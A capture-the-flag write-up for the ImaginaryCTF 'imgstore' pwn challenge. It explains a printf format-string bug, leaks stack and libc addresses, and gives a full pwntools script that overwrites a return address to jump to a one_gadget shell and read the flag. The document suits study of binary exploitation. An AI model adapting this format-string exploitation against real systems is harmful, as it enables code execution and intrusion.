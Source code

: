 https://ctftime.org/event/2396

# imgstore (pwn)

Back to the old school.

https://cybersharing.net/s/9325732cdfe6a6ab

nc imgstore.chal.imaginaryctf.org 1337

## Analysis

There is a lot of random code in this binary and I think that maybe there are a few vulns tucked away there but I focused on the most clearly exploitable aspect of the program in `sell_book`.

`sell_book` @ `0x1e2a`:
- Attacker controlled `printf(local_58);`

## Solution

1) Use `pwninit` to make an easily debuggable version of `imgstore` here called `imgstore_patched`
2) Leak an address on the stack and an address in libc
3) Offset the address on the stack to be the address of the return to libc
4) Use `printf` to perform a write to the libc return address on the stack so that we return to a `one_gadget` instead.

Here is the output of `one_gadget`:

```bash
$ one_gadget ./libc.so.6 
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

I chose to use the send one, namely `0xe3b01`, in the list.

The stack and libc offsets, namely `+ 10040` and `- 0x0024083`, were found by comparing stack addresses with `pwndbg` and looking at the provided `libc.so.6` in `ghidra` respectively.

I had quite some trouble getting a clean 8 byte write with `printf`, I think because the format string is a bit small, so after I figured out that I could perform one or two byte writes somewhat reliably I opted to partially rewrite the lowest three bytes of the libc return address in two stages.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./imgstore_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("imgstore.chal.imaginaryctf.org", 1337)

p.sendlineafter(b">> ", b"3")

p.sendlineafter(b"Enter book title: ", b"%p.%p.%25$p")

p.readuntil(b"--> ")

leaks = p.readline().decode().split(".")
stack_leak = int(leaks[0], 16) + 10040

libc_leak = int(leaks[2], 16)
libc.address = libc_leak - 0x0024083

# perform a partial rewrite of a libc return address in two stages
one_gadget = libc.address + 0xe3b01

p.sendlineafter(b"[y/n]: ", b"y") # first byte only
p.readuntil(b"Enter book title: ")
p.sendline(fmtstr_payload(8, {stack_leak: p8(one_gadget & 0xff)}))

p.sendlineafter(b"[y/n]: ", b"y") # bytes two and three next
p.readuntil(b"Enter book title: ")
p.sendline(fmtstr_payload(8, {stack_leak+1: p16(((one_gadget) >> 8) & 0xffff)}))

p.sendlineafter(b"[y/n]: ", b"n") # ret2one_gadget

p.sendline( b"/bin/cat flag.txt")
 
p.interactive() # ictf{b4byy_f3rM4T_5Tr1nn66S}
```

## Flag
`ictf{b4byy_f3rM4T_5Tr1nn66S}`

smiley 2024/07/21
